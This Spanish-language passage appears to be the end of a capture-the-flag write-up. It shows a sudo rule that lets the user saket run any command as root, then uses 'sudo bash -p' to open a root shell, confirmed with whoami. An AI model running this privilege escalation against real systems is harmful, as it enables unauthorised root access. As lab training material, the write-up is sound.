    (ALL : ALL) ALL
```

Esto significa que el usuario saket puede ejecutar cualquier comando como root.

```bash
saket@ubuntu:~$ sudo bash -p
root@ubuntu:/home/saket# whoami
root
```

Obtenemos root y acabamos este doble CTF con pivoting.